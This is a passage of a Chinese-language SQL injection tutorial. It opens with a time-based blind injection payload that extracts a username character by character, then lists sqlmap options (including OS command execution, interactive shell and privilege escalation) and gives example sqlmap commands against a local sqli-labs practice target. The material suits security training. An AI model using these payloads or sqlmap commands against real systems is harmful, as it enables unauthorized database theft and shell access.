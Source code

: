 12. 获取数据?id=1' and if((select ascii(substr(username,1,1)) from users limit 0,1)&gt;68,1,sleep(5)) --+

### 工具:SQLmap

#### 常用基本参数

| 参数 | 用途 |
|---|---|
| -u | 指定目标url |
| -r | 从文件中加载http请求 |
| -d | 直接连接数据库 |
| -m | 从文件中获取多个URL |
| --users | 枚举目标DBMS所有的用户 |
| --roles | 枚举DBMS用户的角色 |
| --dbs | 枚举DBMS所有的数据库 |
| --tables | 枚举DBMS数据库中所有的表 |
| --columns | 枚举DBMS数据库表中所有的列 |
| --os-cmd= | 执行操作系统命令 |
| --os-shell | 交互式的系统shell |
| --os-esc | 数据库进程用户权限提升 |

#### 常用请求

| 参数 | 用途 |
|---|---|
| -A | 指定user-agent头 |
| -H | 额外的header |
| -method= | 指定HTTP方法（GET/POST） |
| --data= | 通过POST提交数据 |
| --cookie= | 指定cookie的值 |
| --proxy= | 使用代理 |
| --delay= | 设置延迟时间（两个请求之间） |
| --threads=value | 设置线程(默认 1) |

#### 常用注入参数

| 参数 | 用途 |
|---|---|
| -p | 指定测试参数 |
| --level= | 指定测试的等级 |
| --risk= | 指定测试的风险 |
| --technique= | 指定sql注入技术（默认BEUSTQ） |
| --tamper=" " | 指定使用的脚本 |
| --os= | 指定DBMS操作系统 |

- --level=LEVEL 执行测试的等级（1-5，默认为1）数值&gt;=2的时候也会检查cookie里面的数，当&gt;=3的时候将查User-agent和Referer，当=5的时候检查host
- --risk=RISK 执行测试的风险（0-3，默认为1）默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试

#### 举例

1. GET参数注入

`sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1"`

2. POST参数注入

`sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1"  --data="id=1"`

3. cookie等请求头注入 （level&gt;=2时才会检测cookie）

`sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1" --level 2`

对请求包文件进行注入时，用 \* 号指定cookie为注入点，这样就可以检测cookie。
